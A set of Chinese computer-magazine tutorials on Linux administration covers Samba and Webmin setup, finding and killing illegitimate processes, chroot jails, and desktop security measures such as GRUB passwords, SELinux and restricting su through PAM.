关键词：网管、Samba、协议

### 轻松玩转 Samba

#### 服务器安全维护

文／图 杨子江

随着 Linux 的发展，同一个局域网中 Linux 操作系统与 Windows 操作系统共存的现象越来越多。它们之间的信息共享和信息交换也越来越频繁。但是，由于 Linux 与 Windows 之间的竞争，Linux 与 Windows 作业环境的整合还是缺乏沟通的桥梁。这不，在一次调试中，我就碰到了 Linux 与 Windows 共存的问题。最近的一个项目完全是在 Linux 下开发的，很多重要的文件都放在 Linux 服务器上。如何实现它们之间的互连呢？如果 Linux 与 Windows 之间能够有一个像 Windows 与 Windows 之间的网上邻居，并且提供更便捷的操作和安全性，那就很方便了。

其实，从长远规划来看，在 Linux 上架构 SMB 服务器应该是一个最优选择。它不仅能够实现 Windows 系统下共享 Linux 系统中的目录，也能够实现光驱、打印机等共享。下面，我将结合一位老友的工作实践进行讲解。Linux 的配置就不多说了，如果在安装系统时直接选择安装 Samba 服务，系统会自动为用户安装 Samba。如果没有选择安装 Samba 服务，可以到 Samba 的网站（http://www.samba.org/）下载，也可在机器启动后将 Linux 安装光盘放进光驱进行安装。另外，机器启动后再建立一个共享子目录，并给出读、写、执行权限，具体操作如下：

```bash
mkdir /pub
chmod a+rwx /pub
```

#### 有玩意儿：Samba 服务顺利见到配置文件

启动 Samba 服务的方法有很多。以 RedHat 操作系统为例，使用命令“/usr/sbin/smbd -D”，也可以通过“服务”菜单找到 Samba 服务，单击“Start”或者“Stop”按钮来启动或者停止服务，如图1所示。

图1

当 Samba 服务器不能正常工作时，可以使用一些命令来进行检查。与 Samba 有关的命令有 smbclient、smbstatus、smbmount、testparm、testprns 等。它们可以用来检查服务器共享的目录和资源的使用情况。其中，testparm 命令用来检查用户对 smb.conf 文件的修改情况，如果一切正常将打印出正常信息，否则会打印出错误信息；smbstatus 命令用来列出 Samba 服务器资源被使用的情况；testprns 命令用来检查打印机配置文件的正确性，如“testprns lp0 /etc/printcap”用于检查名为 lp0 的打印机是否有误。此外，还可以使用 smbclient 命令来查看 Samba 服务器提供给网络的项目，如果这个命令没有成功，那么可能是前面的配置没有配好或网络有冲突。

言归正传，安装完毕后，还必须定制 Samba 的配置文件 smb.conf，才能使 Samba 正常工作以符合要求。由于 SMB 是一个非常复杂的协议，所以配置 Samba 是十分繁复的，大约有超过 170 条配置项会出现在 smb.conf 文件中。

> SMB 协议：可以将 SMB（Server Messages Block，服务器信息块）协议看作是局域网上共享文件、打印机的一种协议，可以为网络内部的其他 Windows 和 Linux 机器提供文件系统、打印服务或其他信息。Samba 的工作原理就是让 NETBIOS 和 SMB 这两个协议运行于 TCP/IP 通信协议之上。

```ini
writable = no
##### 设置共享打印机
[printers]
comment = All Printers
path = /var/spool/samba
browseable = no
writeable = no
public = yes
printable = yes
```

现在，打开 Samba 的配置文件 `/etc/samba/smb.conf`，该文件几乎包含了 Samba 系统程序运行时所需的所有配置信息。默认文件包含了相当丰富的说明，可以指导用户如何启用、禁止或改变各种选项。在这个文件中，说明内容前面由 `;` 或者 `#` 符号引导，读取配置时会忽略这些行。`smb.conf` 文件按“节”组织，每个节开头是一个加括号的关键字。配置网络时必须编辑 `[global]` 节，并为需要声明为共享的目录和资源加入对应条目。

现在，我们比较关心的是通过 Windows 机器访问 Linux。实现这个功能主要有两种方式：一种是手工编辑 `/etc/smb.conf` 文件，另一种是使用图形界面设置 `smb.conf`。

#### 牛刀小试：在 Windows 下访问 Linux 资源

SWAT 是配置、管理 Samba 的图形化工具（Samba Web Administration Tool）。通过 SWAT，用户可以配置、修改 Samba 的配置文件，并监控服务器运行。首先在 Linux 下编辑 `/etc/xinetd.d/swat`，将 `disable=yes` 改为 `disable=no`，再将 `only_from=localhost` 改为局域网地址（如 `10.64.30.18`），然后在浏览器中访问 `10.64.30.18:901` 进入 SWAT 管理界面。

```ini
[global]
# workgroup 行指定主机在网络上的工作组名称
workgroup = Mygroup
# 这个声明会出现在 Windows 的“网络邻居”中
server string = Samba Server
# hosts allow 行指定允许访问本地共享资源的机器
hosts allow = 192.168.10.123
# security 行用于指定访问安全级别
security = share

[public]
path = /pub
browseable = yes
writable = yes
public = yes
guest ok = yes

[cdrom]
comment = Linux CD-ROM
path = /mnt/cdrom
public = yes
```

之后设置“GLOBALS”“shares”等参数。设置全局参数时，将 `security` 类型改为 `share`。设置共享 `shares` 时，先建立新的共享名称，再点击“choose share”选择共享名，例如设定 `path` 为 `/home/test`。这样在 Windows 平台的网上邻居中即可看到 Linux 电脑及共享目录 `test`，可以直接对目录进行读写操作。

需要指出的是，Windows 系列和 OS/2 操作系统都是使用 SMB 协议来在不同的计算机之间相互通信的。通过在 Linux 上安装 Samba，就使得 Linux 可以同 Windows 系列计算机之间相互通信，并可使 Linux 机器模拟成 Windows 机器。这样，安装了 Samba 的 Linux 机器就可以模拟 Windows NT 的功能，并能提供几乎全部的 Windows NT 功能。至此，一个简单的双向共享就建立起来了。

#### Webmin：比控制面板更省心的管理界面

使用图形界面管理工具 Webmin，也可以轻松配置 Linux 下的 Samba 服务器，甚至是远程配置目前 Linux 上运行的所有服务。而且，通过增加模块，其功能可以被不断扩展，使用户可以针对自己的需求自行开发。软件下载地址是 http://www.webmin.com，在首页有一个“Downloading and Installing”下载图标，下载完毕后，会注意到 Webmin 被作为“noarch”软件包列了出来。

> “noarch”软件包。由于 RPM 是二进制文件，它们通常为特定的体系结构进行编译，比如 i386 或者 ppc，在错误的体系结构上安装软件也会导致错误的结果。因为 Webmin 是用 Perl 编写的，而 Perl 是体系结构无关的，所以 Webmin 被标识为“noarch”。Practical Extraction and Reporting Language（Perl 语言）是 1987 年出现的一种多平台的解释性编程语言。它在多种平台都可以使用，包括 Windows，具有成熟完善的脚本功能。

如果使用 RedHat Linux，那么最简单的是使用 RPM 安装方法。以下我们假定是以 RPM 方式进行安装。首先检查系统是否已经安装了 Webmin，在文本终端中输入“rpm -q Webmin”，如果没有安装 Webmin，系统会提示“package Webmin is not installed”。然后在安装文件目录下输入类似如下的命令“rpm -ivh webmin-1.260-1.noarch.rpm”。回车后，系统会完成安装。

```bash
rpm -q Webmin
package Webmin is not installed
rpm -ivh webmin-1.260-1.noarch.rpm
```

Webmin 安装后，可以在本地或者远程浏览器上打开一个特定的端口来进入管理界面。默认端口通常是 10000，这是安装时程序默认提供的 HTTP 服务器端口，安装时可以根据自己的情况随意设定。不过，一般不要占用小于 1024 的端口。下面，我们来测试 Webmin 是否安装成功。

首先打开浏览器，在本地系统的浏览器中输入 http://localhost:10000/，可以看到一个管理员登录界面。这时会弹出一个窗口，要求用户输入管理员名称及口令。至此表明，安装在 Linux 系统下的 Webmin 可以正常工作。正确输入用户名及口令（默认只有 root 账号可以登录），就可以对系统管理了，如图3所示。

图3

Webmin 的默认界面是全英文的，对于国内用户来说，只要稍微修改一下，就可以变成全中文界面。单击“Change Language and Theme”图标，会出现很多设置项目。在“Webmin UI Language”后，将语言修改为“Simplified Chinese（ZH CN）”，就变成中文版本了。Webmin 的管理工作是通过网页方式实现的，可以分为 7 个功能部分：

- Webmin 配置
- 系统配置管理
- 服务配置管理
- 网络配置
- 硬件配置
- 群集配置
- 其他配置

所有操作简单、直观。

下面，我们来见识一下它的威力。登录“服务器”界面后，可以完成许多典型的配置管理，包括 Apache 服务、FTP 服务、域名服务、代理服务、邮件及邮件列表服务（其中包括 Sendmail、Postfix 等邮件服务器管理）等。当然，这里也包括我们渴望已久的 Samba 文件服务器，如图4所示。

这里的操作更加简单，与 Windows 下的操作几乎没有什么区别。建立 Samba 服务器一般需要经过以下几个步骤：

- 修改配置文件 smb.conf
- 安全设置
- 添加 Samba 用户
- 启动 Samba

其中关键步骤在于对 Samba 配置文件的设置，可以参考本文对 smb.conf 的相关讲解。此外，在添加 Samba 用户时，由于 Samba 使用加密口令认证机制……

图4

总之，在“Samba Windows文件共享”中，可以方便地使用图形界面进行管理。无论从安装还是到参数配置、安全管理，都可以轻松完成任务。此外，还有网络界面、硬件界面、群集界面、其他界面等，都可以完成很多日常的管理工作。

## 更上一层楼：提高Samba服务器的安全性

尽管Samba软件提供了一定的安全保障功能，而且操作也十分方便，但是它也存在一些安全漏洞。虽然这些漏洞不断地得到修正，但在使用时还是需要进行安全方面的设定。下面列举一些比较常见的安全设置。

首先，对全局安全等级进行合理设定。对Samba可以设置4种安全等级，从低到高分别是share、user、server和domain。其中，在share模式下，用户访问Samba服务器不需要提供用户名和口令，安全性能较低。user模式是Samba服务器默认的安全等级，每一个共享目录只能被一定的用户访问，并由Samba服务器负责检查账号和密码的正确性。server模式为服务器安全级别，依靠其他Windows系统或Samba服务器来验证用户的账号和密码；domain为域安全级别，使用主域控制器（PDC）来完成认证。对安全性能要求不是很高的单位，不需要采用server和domain安全模式。

其次，尽量使用加密口令认证。在较早的Windows版本中，访问Samba服务器时使用普通的明文密码即可，这往往会造成很大的安全漏洞。Windows 98和Windows NT 4.0 SP3之后的Samba客户机均使用加密的口令认证方式，但Samba服务器无法区分明文密码和加密密码，口令在网络上明文传输的安全漏洞问题仍然存在。解决这个问题的最好办法是让Samba支持加密口令认证，使用独立于Linux系统口令文件之外的认证系统。Red Hat中的Samba软件包已经预先编译成支持加密口令认证功能，可直接使用。为使Samba服务器识别加密口令，须对配置文件中全局部分的security、encrypt passwords、null passwords和smb passwd file等参数进行设置。例如：

```ini
security = user
encrypt passwords = yes
null passwords = no
smb passwd file = /etc/samba/smbpasswd
```

再次，要加强防火墙的安全配置。处于计算机和网络之间的防火墙决定了机器上的哪些资源能够被网络中的远程用户访问，适当地配置防火墙能极大地加强系统安全性能。一般来说，系统的安全级别分为高级、中级和无防火墙三类。比如，现在比较流行的Red Hat Linux就提供了防火墙保护来加强系统安全。其中，高级级别中默认的情况只有DNS应答和DHCP两个网络连接能够被建立；中级级别在默认情况下，端口低于1023的应用程序、NFS服务器端口2049，以及本地Windows系统的资源将不能被访问；对于无防火墙级别，系统不会进行安全检查。另外，在“信任的设备”选项中，任何被选中的信任网络设备到达的数据都会被系统接收，而且防火墙对该设备不起任何作用。因此，在实际配置过程中，如果Linux防火墙设置不当，将会导致Samba用户找不到访问路径。

Windows与Linux的网络集成后，可以使局域网变得更加健壮；通过Linux系统的Samba服务器，方便了相互之间的资源共享，提高了工作效率，使基于异构网络环境下的局域网更有应用价值。现在，你是否觉得那只可爱的小企鹅更加美丽动人了呢？

前置知识 Linux

关键词：网管、进程管理、安全策略

## 点面结合轻松阻止Linux非法进程

文／图 风之扬

随着开放、共享理念的迅速传播，Linux操作系统开始深入到教育、政府、商业、军事等诸多领域。但是，大部分Linux操作系统都运行在一个不太安全的网络环境中，这就带来了潜在的威胁——非法用户入侵。在Linux攻击中，许多恶意程序以目标系统的合法进程，尤其是重要系统进程为目标，使得系统无法完成正常的工作甚至无法工作（比如拒绝服务攻击）。这将导致系统中的进程被恶意修改或删除，更可怕的是许多不合法的进程会被植入系统中。

非法进程的攻击性相当大，比如黑客渗入到操作系统并替换系统登录文件，导致操作系统上的资源被黑客自由利用；不合法的进程被植入操作系统后消耗了大量的CPU资源，造成其他用户进程得不到系统资源。如果我们不能发现其中的变化，那无异于身处“虎口”而浑然不觉。本文通过介绍Linux系统下一些重要的进程状态以及进程管理技术，尤其是对Linux上的安全进程进行分析，帮助网络管理员在复杂和不安全的网络环境下及时发现系统的异常状况，并采取相应的应对措施。

### 训练点兵：Linux下的快速进程管理

- 1. 前世今生：了解进程的来龙去脉

当运行任何一个Linux命令时，Shell至少会建立一个进程来运行这个命令，这个进程也叫做父进程。在Linux中，程序是存储在磁盘上包含可执行机器指令和数据的静态实体，好比是某个指挥部的作战指令；相比之下，进程则是在操作系统中执行特定任务的动态实体，好比是前进中的某支军队。

Linux系统中每个运行中的程序至少由一个进程组成。如同每支担负着特定任务的军队一样，每个进程与其他进程都是彼此独立的，都有自己独立的权限与职责，一个用户的应用程序不会干扰到其他用户的程序或者操作系统本身。如同一个人的出生、成长、死亡乃至消失于这个世界，进程也有一个类似于人类的过程。下面，我们来看看一个进程的“人生轨迹”。

首先是进程的诞生，就像一个克隆人的诞生一样，一个现有进程可以使用“fork()”函数创建一个子进程。在这个“孩子”出生后，它将获得“父亲”的数据空间、堆、栈等资源。

然后是进程的成长。在人生路上，总会有许多知己，包括提拔自己的“贵人”。新进程的“贵人”就是“exec()”函数。在它的培养下，子进程逐步成长，并开始它的探险之旅。

再就是进程的死亡。生老病死，人都得经历这么一个过程，进程也不例外。自然死亡，即运行到“main()”函数的最后一个括号，悄悄地离开这个世界；也可以是自杀或他杀，自杀是调用“exit()”函数，他杀则是被其他进程通过另外一些方式结束它的生命。相信对C语言熟悉的用户对此不会陌生。

最后是进程的结局，这个过程是每个人都有的。进程死后，会留下一个僵尸，“wait()”函数就是“验尸官”，它把僵尸“火化”，使其消失于无形。

这就是一个进程的一生。不过，我们最关心的，是这个进程到底是合法的还是非法的。如果是合法的，我们就要鼓励它、栽培它；如果是非法的，那可就要了解其来龙去脉了。

> **PROC文件系统。**进程的基本信息都存放在“/proc”文件目录下。在Linux中，PROC文件系统是一个虚拟的文件系统，它以文件系统的形式，为操作系统本身和应用进程之间的通信提供了一个界面，使应用程序能够安全、方便地获得系统当前的运行状况和内核的内部数据信息，并且可以修改某些系统的配置信息。在/proc文件系统中，每一个进程都有一个相应的文件，如“/proc/pid/cmdline”就包含了用于开始进程的命令。

- 2. 明察秋毫：快速了解进程状态

要了解进程状态，自然要用到ps命令。ps是查看进程状态最常用的命令，可以提供关于进程的许多信息。根据显示的信息，用户可以了解许多和进程相关的信息。比如，可以确定哪个进程正在运行，哪个进程被挂起，已经运行了多久，正在使用的资源，进程的相对优先级以及进程的标识号（PID）等。直接用ps命令可以列出每个与当前Shell有关的进程基本信息。如图1所示。

图1

在图中显示的结果中，USER表示启动进程用户；PID表示进程标识号；%CPU表示运行该进程占用CPU的时间与该进程总运行时间的比例；%MEM表示该进程占用内存和总内存的比例；VSZ表示占用的虚拟内存大小，这里以KB为单位；RSS为进程占用的物理内存值，也是以KB为单位；TTY表示该进程建立时所对应的终端；STAT表示进程的运行状态；START为进程开始时间；TIME用于报告进程累计使用的CPU时间；COMMAND则是对应的命令名。

> 需要注意的是，在上例中，真正使用CPU的时间很短，所以该字段的值是00:00:00。此外，还有许多和ps命令相关的选项，用于指定特定的进程操作。如“-u”选项用于显示面向用户的格式，包括用户名、CPU及内存使用情况等信息。使用“ps -aux”命令，可以获得终端上所有用户有关进程的所有信息。

除了ps命令，也可以使用top命令查看进程状态。使用top命令和ps命令都可以显示系统当前的进程及其状态。但是，top则是一个动态的显示过程，可以通过用户按键来不断刷新当前状态。如果在前台执行，该命令将独占前台直到用户终止该程序为止，如图2所示。

图2

在使用top命令的过程中，可以使用一些交互命令来完成其他参数的功能，这些命令是通过快捷键启动的，如空格键可以刷新信息，P键可以根据CPU使用大小进行排序，T键可以根据时间排序，m键可以切换显示内存信息等。在查看非法进程的过程中，top命令就是一个功能强大的监控系统，这对于系统管理员来说尤其重要。不过需要注意的是，它会消耗很多系统资源。

- 3. 一矢中的：快速终止指定进程

在实际监测过程中，进程运行需要占用系统资源，一个进程如果占用了大量资源就会造成系统性能瓶颈现象。因此，有必要使用相关命令对非法进程或“僵尸进程”快速进行操作。kill命令的工作原理是，它可以向进程发送指定信号以结束相应进程。下面，以一个典型的进程终止过程为例进行分析。

- 第1步：设计一个搜索文件的进程。为了达到这个目的，使用“查找”命令来寻找硬盘上的文件。如果知道了某个文件的文件名，如httpd.conf，但不知道这个文件放在哪个文件夹，甚至是层层套嵌的文件夹里，就可以使用命令：“find / -name httpd.conf”。

> 小知识：查找命令的使用。在Linux中查找文件的命令通常为“find”。find命令的语法比较简单，就是直接在命令后面写上目录名（“/”表示根目录），紧接着是“-name”，表明要求系统按照文件名查找，最后写上目标文件名即可。稍等片刻，系统就会在计算机屏幕上显示出查找结果列表。

- 第2步：将进程设置为后台运行。对于耗时长的任务不应该让它在前台任务中执行，而应该交给后台任务去执行，这样前台任务可继续正常进行其他操作，不用等待。如果想要让任务转为后台执行，就可使用“&”，这时该程序的输出不会出现在屏幕上。命令为“find / -name httpd.conf &”。

- 第3步：使用命令“jobs -l”显示后台任务的执行情况。现在，在屏幕上可以看到提示，即PID为9708的进程正在运行，如图3所示。

图3

- 第4步：用kill命令终止进程，再用命令“jobs -l”显示后台任务的执行情况，就会发现PID为9708的进程已经终止了。

> 小知识：kill和killall命令。kill、killall都是结束进程的强大命令，两者最大的区别就在于kill命令需要PID（进程号），而killall需要进程的名字。在网络管理中，这两个命令对管理员非常有用，比如要将某个用户“踢出系统”时，杀掉该用户的Shell进程即可。

上面介绍了Linux下进程管理的常见命令，通过它们可以实时查看系统当前的进程状况，也可以找出那些占用了过多系统资源的进程并结束该进程。在Linux系统中，还提供了许多实用的进程管理工具，可以帮助用户调用和配置进程，如下表所示。

| 命令 | 功能描述 |
|---|---|
| at | 在指定时刻执行指定的命令序列 |
| who | 用于查看当前在线的用户情况 |
| cron | 在指定时间或按指定间隔执行规定的任务 |
| crontab | 用于安装、删除或列出用于驱动cron后台进程的任务表 |
| nice | 设置进程按用户指定的优先级运行 |
| renice | 用来改变正在运行进程的优先级 |

通过上述命令，我们可以对进程的活动状况进行监控和管理，但在实际使用过程中还存在不少问题。比如，手工输入命令行的效率比较低，不能对系统进程、用户进程、后门进程、非法进程等进行清晰区分。尤其需要注意的是：如果黑客成功入侵，就可以植入恶意程序以替换原来的系统程序。如果用户无法了解当前系统中运行的非法进程，管理工作将十分被动，甚至会蒙受更大的损失。

#### 层层深入：实施安全可靠的进程保护策略

由于上述种种不足，我们需要一套完整的进程安全性检查和恢复解决方案，使得当进程被恶意修改或删除后能及时发现，从而为进一步处理创造条件。

- 1. 服务器保护：通过chroot机制提高进程安全性

如今，缓冲区溢出漏洞日益增多，服务器也开始面临着更大的安全威胁。在很多黑客事件中，我们经常可以看到攻击者利用其他漏洞来“提权”，直至达到root级别。下面，列举一个典型的进程安全案例。

现在假设Apache服务器安装在“/usr/local/httpd/”目录下，以root用户（或具有相同权限的其他账号）启动Apache。首先，这个root权限的父进程会派生若干个以nobody权限运行的子进程。然后，父进程监听来自80端口的TCP数据流，并根据内部算法将这个请求分配给某个子进程来处理。由于Apache子进程所在的目录会继承自父进程，即“/usr/local/httpd/”，所以问题就出来了：一旦目录权限设定失误，被攻击的Apache子进程就可以访问“/usr/local”“/usr”“/tmp”，甚至整个文件系统。原因在于Apache进程所处的根目录仍是整个文件系统的根。

因此，如果能够创造一个安全的进程保护环境，利用chroot将Apache进程操作限制在“/usr/local/httpd/”，那么Apache所能存取的文件就都是“/usr/local/httpd/”下的文件或其子目录下的文件。为了实现这一目的，这里引入chroot机制。

##### 小知识

chroot机制。chroot是内核中的一个系统调用，软件可以通过调用库函数chroot，来更改某个进程所能见到的根目录。创建chroot的作用就是将进程权限限制在文件系统目录树中的某一子树中。

- 第1步：创建chroot目录。将软件chroot化时，该软件运行时需要的所有程序、配置文件和库文件都必须事先安装到chroot目录中（通常称为“chroot jail”）。因此，需要事先创建“/sbin”目录，并将httpd复制到其中。这一工作可以交由计算机完成，用jail等软件包来帮助简化chroot jail建立的过程。

- 第2步：安装jail软件包。从 `http://www.jmcresearch.com/static/dwn/projects/jail/jail.tar.gz` 可以下载到jail的最新版本。它是由jail chroot项目小组开发的，包含帮助自动创建chroot jail的C程序、Perl程序和Bash脚本。

```bash
# tar xzvf jail.tar.gz && cd jail/src
```

按照个人实际情况修改makefile文件，尤其是安装路径（默认安装路径是/usr/local）、体系结构（jail支持Linux、FreeBSD、IRIX和Solaris）以及编译选项等，最后执行命令：

```bash
# make && make install
```

- 第3步：为jail创建chroot安全进程保护。现在创建一个目录进行chroot进程保护，以“/var/chroot/”为例，执行下面的命令为chroot jail创建环境：`/usr/local/bin/mkjailenv /var/chroot`。这样，就可以创建一个安全的进程保护了。此外，jail软件包还提供了几个Perl脚本作为其核心命令，包括mkjailenv、addjailuser和addjailsw等，这样将会更有利于用户进行安全目录操作，如addjailsw可以从真实文件系统中拷贝二进制可执行文件及相关文件到该目录中。

- 2. 更上一层楼：实施系统化的Linux进程维护

当然，上述进程保护方案只是局限于某一个方面。对于规范的网络维护而言，系统通常会因为某种原因遇到各种问题，比如速度变慢或不稳定，这时，就要实施更加有针对性的进程保护了。下面是某公司针对Linux进程保护的防范方法，包括记录Linux下合法进程的相关信息、建立进程“指纹”数据库、进程检测和恢复、安全备份等。在这里，用户需要把进程“指纹”数据库同安全恢复目录一起保存在一个安全的地方，例如有写保护的U盘、光盘，也可以把安全恢复目录放在一个安全的远程主机中并以只读方式输出。

- 第1步：记录Linux下合法进程的相关信息。首先，将Linux系统下的进程按以下几个方面进行分类：内核进程、网络进程、文件系统和磁盘管理进程、系统管理进程、硬件设备控制进程、应用程序进程、shell相关程序进程、操作系统工具进程、图形工具进程等；然后创建一个安全目录，该目录包含所有需要保护的合法进程对应文件的磁盘镜像。

- 第2步：建立进程“指纹”数据库。进程“指纹”数据库用来存放被检测进程的基本信息、唯一标识（指纹）信息、检查策略、检查报告等数据，从而能对进程的活动进行全方位的监视。该数据库主要包含以下表格，分别是进程信息表、进程“指纹”表、进程日志表、进程策略表、进程参数表等。其中，进程信息表提供操作系统认可的合法进程的基本信息并标明该进程对于系统的重要性；进程“指纹”表定义进程的检测指标，作为判定进程是否合法的唯一标识；进程策略表对进程的检测指标设置不同的检查策略；进程日志表则对进程的每次检测形成报告等。

- 第3步：进程检测和恢复。这里包括两个方…即系统中运行进程检测、系统中的关键进程检测。对于系统中的运行进程检测，主要是检查进程名是否与进程基本信息表中的数据匹配，如果不匹配，标明该进程身份不明，并杀死该进程，记录日志；如果匹配，根据进程策略表中给定的策略，对进程的“指纹”信息进行验证。对于系统中的关键进程检测，主要是检测程序列出在进程信息表中的系统关键进程，如果发现问题则从安全目录中恢复该进程对应的文件，并将结果记录在日志中。

所谓“兵来将挡，水来土掩”，上述方案的作用十分明显。对于某些“非法”进程，网络管理员还可以手动执行相关进程操作命令，将这些命令编写成脚本，与系统定时执行。总之，对每个进程了解得越多，就越能够容易地精确定位进程的问题所在。所以，通过综合采用进程命令以及进程记录、检测、备份、恢复等防护措施，我们就可以保护Linux系统中重要系统进程以及用户进程的安全性，从而达到维护系统安全的目的。

前置知识：Linux  
关键词：网管、系统策略、桌面安全

## Linux桌面安全应用一点通


文／图 杨子江

在计算机时代，“桌面”是一个很流行的词语，它是登录到操作系统之后所看到的主屏幕区域，也是用户工作的平面。随着Linux桌面应用的扩展，它的安全性也越来越受到用户的关注。在实际应用中，桌面用户要求安全工具安装简单，易于管理，并且具有友好的图形界面。不过，Linux桌面用户大多是从Windows“移民”过来的，对Linux环境和操作感到既新奇又陌生。因此，尽管Linux具有强大的网络功能，如果不掌握安全知识，不但不能发挥网络功能，反而会有安全危险。下面，针对市面上常见的Red Hat、SUSE、Debian、Mandrake等系统，通过归纳其中的一些共性设置，重点讲解一些适合Linux桌面用户的安全策略及安全工具。

## 打造安全的Linux系统策略

#### 1. 安装操作：合理规划实现多系统共存

现在，很多Linux桌面用户都习惯使用Windows、Linux双系统。在这种情况下，可以考虑使用双硬盘，具体方法如下。

- 第1步：将主硬盘数据线拆下，找一个小硬盘挂在计算机上，将小硬盘设置为从盘。小硬盘的大小不限，基本上以够用为准，如20G、40G等。  
- 第2步：按照平常操作的方法，安装Linux服务器版本。在安装过程中，除了启动的引导程序放在MBR外，其他没有区别。安装完成并调出桌面后，关闭计算机。  
- 第3步：将小硬盘的数据线拆下，装上原硬盘，并将其设置为主盘。这样做的原因，是为了保证原硬盘和小硬盘同时挂接在一个数据线上。  
- 第4步：安装Windows操作系统及相关软件。将两个硬盘都挂在数据线上，数据线是IDE0接口，将原硬盘设定为主盘，小硬盘设定为从盘。  
- 第5步：在CMOS里进行启动设置。如果要从原硬盘启动，就在CMOS里将启动的顺序设定为“C、D、CDROM”或者是“IDE0(HDD-0)”，这样，计算机启动时就会进入Windows界面；如果要从小硬盘启动，可将启动顺序改为“D、C、CDROM”或“IDE1(HDD-1)”，启动之后将进入Linux界面。  

通过上述操作，我们就可以方便地在一台电脑上使用两个操作系统。当然，如果只是学习Linux，可以使用VMware软件。VMware可以将电脑上的一部分硬盘和内存进行组合，每台机器拥有自己独立的CMOS、硬盘和操作系统。我们可以像使用普通机器一样对它们进行分区、格式化、安装系统和应用软件等操作，还可以将这几个操作系统连成一个网络。这样，一台电脑就可以轻松虚拟出若干台机器。

#### 2. 密码策略：多管齐下保证系统的安全登录

密码是Linux系统的金钥匙，也是系统安全的第一道防线。因此，必须有一个强健的密码。当然，地球人都知道应该遵循以下原则：足够长；不要用完整的单词；尽可能包括数字、标点符号和特殊字符等；混用大小写字符；经常修改。不过，在Linux桌面安全设置中，还应注意以下几个方面。

首先是登录和登出过程中的密码安全。这里有很多容易忽视的地方，比如设置BIOS的密码保护是很有必要的，并且不要和系统密码相同。此外，锁定屏幕和登出也是非常重要的，因为Linux桌面是一个多用户环境。如果在系统上是唯一的用户，建议锁定屏幕保证系统安全。

其次，在启动加载程序时，应尽量使用GRUB而不使用LILO。原因是：虽然它们都可以加入启动口令，但是LILO在配置文件中使用明文口令，而GRUB使用的是MD5加密算法。通过加密码保护，可以防止使用被定制的内核来启动系统。LILO的配置文件在“/etc/lilo.conf”文件中，GRUB的配置文件在“/boot/grub/grub.conf”中。grub.conf文件如图1所示。

最后，建议使用SELinux安全策略。SELinux（Security-Enhanced Linux）是由美国国家安全局NSA开发的访问控制体制。与日常Linux系统相比，SELinux系统安全性能要高得多，它通过对用户进程权限的最小化，使得系统即使受到攻击，进程或者用户权限被夺去，也不会对整个系统造成重大影响。没有SELinux保护的Linux的安全级别和Windows一样，是C2级，但经过SELinux保护的Linux，安全级别则可以达到B1级。图2所示为SELinux User列表。


图1


图2

#### 3. 文件操作：细微之处打造安全的系统策略

在文件操作方面，可以从以下几方面着手。第一，隐藏文件和文件夹，关注文件共享。在Linux系统中，如果有不想让别人直接看到的文件，最简单的办法就是在文件名的前面加个“.”，也可以在终端通过“mv test .test”命令实现。例如“test”文件会出现在文件夹中，但“.test”则不会出现；如果需要查看隐藏文件，可以在终端进入对应文件夹，用“ls -a”命令查看。

第二，防范文件共享。很多Linux用户都喜欢启用文件共享。不过，其他人可以通过网络共享获取一些敏感信息，或者通过其他途径对电脑造成破坏。因此，建议不要随便安装文件共享工具。

第三，给“/home”文件夹创建独立分区。在Linux系统中，“/home”默认的安装路径恰好是在root目录下，所以任何获得接入本地计算机权限的人，就可以马上知道数据在哪里。在比较重要的场合下，可以将“/home”放在不同的硬盘或者全部分割。

此外，对于整个系统而言，勤打补丁保持实时更新也是十分重要的。在Linux系统的KDE和Gnome桌面环境中，均提供了实时检测更新的小软件，建议让这些小程序保持运行状态，这样一旦有有用的更新发布就能及时安装。同时，Linux还包括Samba、FTP、SSH、MySQL、PHP、Firefox等开源软件，且都在不断地升级，稳定版和测试版交替出现。所以，要经常关注相关网站的“bug fix”和升级等栏目，及时升级或添加补丁。

#### 4. 用户管理：严格权限禁止非法切换

在Linux中，“su”是一个很常用的命令，它用于完成从普通用户到root用户的切换，也可以用于普通用户之间的切换。以切换到root用户为例，用户只要知道root密码就可以完成此项操作，但这样系统会存在一定风险。因此，有必要限制可以使用“su”进行切换的用户。

> PAM机制。在Linux中，只有属于wheel组的用户，才可以使用“su”来切换用户，这个限制是由PAM机制来限制的。PAM（Pluggable Authentication Modules）是由Sun提出的一种认证机制。它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开，使得系统管理员可以灵活地根据需要，给不同的服务配置不同的认证方式而无需更改服务程序，同时也便于向系统中添加新的认证手段。PAM最初是集成在Solaris中，目前已移植到其他系统中。

- 第1步：将普通用户cndes加在管理员组wheel组中。命令为：`# usermod -G wheel cndes`。  
- 第2步：修改配置文件。使用编辑器打开`/etc/pam.d/su`配置文件，修改“`# auth required pam_wheel.so use_uid`”为“`auth required pam_wheel.so use_uid`”，即去掉前面的“#”号。这样，只有cndes可以用正确的密码切换到任何用户，其他用户即使有正确的密码也不能切换到其他用户，如图3所示。  


> 默认root用户是属于wheel组的。可以使用cat命令查看，命令为：`# cat /etc/group | grep wheel`。

在这里列举的几个典型案例，对于日常的桌面操作十分有帮助。因此，在实际应用中，还要掌握一些常用命令的使用方法和实用的工具，这样就能够明显地提高桌面操作的效率。

### 让安全工具助桌面应用“一臂之力”

#### 1. 让杀毒防毒更加简单快速

如今，随着Linux桌面用户数量的增长，桌面用户在受益于Linux系统对病毒较强的天然免疫力的同时，也需要杀毒软件清理从网络或U盘带来的Windows病毒。这里介绍两款适用于桌面用户使用的杀毒软件。

首先，是来自捷克的“Free avast! Linux Home Edition”。软件下载地址为：http://www.avast.com/eng/avast-for-linux-workstation.html。它的Linux版本采用了与Windows版本相似的杀毒内核，适合在意扫描速度和各种高级功能的技术性用户使用。软件安装简单快速，下载完成直接双击即可。首次运行时，可以通过官方网站获取相关证书并完成认证。该软件的解压缩能力十分出众，对于多种EXE加壳手段都能检测出来。在图形界面中，包括排除目录、邮件提醒、报告格式等设置，并提供了本地病毒百科全书供用户查阅。在图形界面下，还可以进行病毒库更新、查看日志、设置隔离区等操作。此外，病毒扫描也可以选择多个不同的目录，并且可以方便地在“快速”、“标准”、“深入”等模式中切换。

